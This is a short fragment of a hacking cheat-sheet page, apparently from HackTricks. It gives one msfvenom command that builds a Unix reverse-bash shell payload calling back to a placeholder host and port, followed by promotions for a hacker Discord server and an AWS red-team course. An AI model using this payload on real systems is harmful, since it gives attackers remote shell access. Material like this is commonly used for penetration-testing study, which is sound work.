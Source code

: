 {% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

[**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
